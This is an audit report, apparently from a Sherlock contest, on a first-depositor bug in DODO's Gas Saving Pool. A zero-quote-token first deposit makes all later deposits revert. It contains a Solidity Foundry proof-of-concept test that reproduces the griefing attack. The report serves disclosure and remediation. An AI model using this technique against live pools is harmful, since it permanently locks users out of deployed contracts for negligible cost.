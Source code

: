 Witty Cerulean Panther

high

# First depositor can brick the pool

## Summary
The initial depositor isn't required to deposit quote tokens. However, if the depositor chooses not to deposit any quote tokens, subsequent deposits will revert. This occurs because the shares are accounted as 0 when quote tokens aren't deposited, and the minimum value for shares is 1000.
## Vulnerability Detail
When the first depositor deposits, there are no restrictions to force depositor to deposit a decent amount of quote tokens. When the depositor does not deposits any quote tokens then the pool will have 0 quote token reserves. When the pool has 0 quote tokens all the other deposits will fail because of [this](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L65) if check will never be executed and shares will be default to 0 hence, the [mint](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol#L295) will fail because the shares to mint (0) is lesser than the minimum mint value. 


PoC:
```solidity
function test_FirstDepositorCanBrickThePool() external {
        // tapir deposits tiny amounts to grief, important is that tapir deposits 0 quote tokens!
        vm.startPrank(tapir);
        dai.safeTransfer(address(gsp), 1001);
        usdc.transfer(address(gsp), 0);
        gsp.buyShares(tapir);

        console.log("Base target", gsp._BASE_TARGET_());
        console.log("Quote target", gsp._QUOTE_TARGET_());
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());
        console.log("Tapirs shares", gsp.balanceOf(tapir));

        vm.stopPrank();
        vm.startPrank(hippo);

        // hippo wants to deposits properly, but it will fail because of the minimum mint value!
        dai.safeTransfer(address(gsp), 1000 * 1e18);
        usdc.transfer(address(gsp), 1000 * 1e6);
        vm.expectRevert("MINT_AMOUNT_NOT_ENOUGH");
        gsp.buyShares(hippo);
    }
```
## Impact
Since this exploit does not requires big funds (simply 1004 in 18 decimals is enough which is lesser than a penny) and it will forever block the pool, I'll label this as high. 
## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L31-L82
## Tool used

Manual Review

## Recommendation
Force the first depositor to deposit decent amount of quote tokens